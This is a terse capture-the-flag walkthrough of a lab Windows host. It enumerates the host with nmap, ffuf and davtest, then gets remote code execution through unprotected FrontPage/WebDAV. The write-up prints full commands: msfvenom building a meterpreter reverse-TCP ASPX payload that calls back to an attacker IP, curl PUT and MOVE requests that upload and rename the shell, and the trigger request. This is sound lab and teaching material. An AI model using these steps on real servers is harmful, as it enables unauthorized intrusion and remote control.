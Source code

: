 started with an nmap scan

ran a ffuf using common.txt

ran the vulnerability nmap script and found that this server is running the Microsoft FrontPage Extension

upon reading the [NMAP LINK](http://insecure.org/sploits/Microsoft.frontpage.insecurities.html), we are told frontpage visits `domain/_vti_inf.html` when it needs to publish files **(GET)**

then it'll posts the file to `domain/_vti_bin/shtml.exe/_vti_rpc` **(POST)** 

server binary is not password protected so it is possible to post a query to it

we will attempt to post a file on the server using curl

we use davtest to see which filetypes can be sent
`davtest -url http://10.10.10.15

notice that aspx files cannot be sent but txt files can
we'll upload a reverse shell generated with msfvenom as a txt file and then rename it using the MOVE function using curl
then start a meterpreter session and simply curl the link to start our reverse shell

`msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.14.20" LPORT=1111 -f aspx > COOL.aspx`

`curl -X PUT http://10.10.10.15/shell.txt --data-binary @COOL.aspx`

`curl -X MOVE -H 'Destination: http://10.10.10.15/shell.aspx' http://10.10.10.15/shell.txt`

meterpreter:
use multi handler
set payload to reverse windows tcp
set lhost and lport
exploit

`curl http://10.10.10.15/shell.aspx`

`meterpreter> getuid`

traverse directory to documents and settings > users > find flags

